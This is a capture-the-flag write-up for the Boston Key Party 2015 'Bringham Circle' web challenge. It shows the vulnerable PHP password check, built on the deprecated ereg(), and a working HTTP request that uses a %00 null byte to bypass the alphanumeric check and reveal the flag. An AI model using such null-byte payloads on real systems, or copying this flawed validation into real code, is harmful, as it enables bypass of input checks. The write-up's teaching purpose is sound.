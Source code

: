 ```yaml
---
layout: post
title: "Boston Key Party 2015 Bringham Circle"
date: 2015-03-18 09:20:05 -0400
author: [NullMode]
comments: true
categories: [boston key party]
---
```


### Solved by NullMode

We were able to get the the source code for this challenge by requesting ```index.txt``` on the web server. Turned out to have some funky checks being made:

```
<html>
<head>
    <title>level6</title>
   <link rel='stylesheet' href='style.css' type='text/css'>
</head>
<body>

<?php
require 'flag.php';

if (isset ($_GET['password'])) {
    if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
        echo '<p class="alert">You password must be =
alphanumeric</p>';
    else if (strpos ($_GET['password'], '--') !== FALSE)
        die('Flag: ' . $flag);
    else
        echo '<p class="alert">Invalid password</p>';
}
?>

<section class="login">
       <div class="title">
               <a href="./index.txt">Level 6</a>
       </div>

       <form method="get">
               <input type="text" required name="password" = placeholder="Password" /><br/>
               <input type="submit"/>
       </form>
</section>
</body>
</html>
```

From the above we can determine that the password parameter can only be a set of alphanumeric characters. However, the password must also contain `--` somewhere.

I tried breaking out of the regular expression with new lines, but that didn't work. I then tried inserting a nullbyte followed by the `--` string. Success!

The regular expression treated the null byte as the end of the string, however the strips function looked through the entire variable for the `--`.

### Payload

```
GET /?password=lolol%00-- HTTP/1.1
Host: 52.10.107.64:8006
Connection: keep-alive
```

### Response - With flag \o/

```
HTTP/1.1 200 OK
Server: nginx
Date: Sat, 28 Feb 2015 12:48:41 GMT
Content-Type: text/html
Connection: keep-alive
Content-Length: 162

<html>
<head>
    <title>level6</title>
    <link rel='stylesheet' href='style.css' type='text/css'>
</head>
<body>

Flag: OK_Maybe_using_rexpexp_wasnt_a_clever_move
```

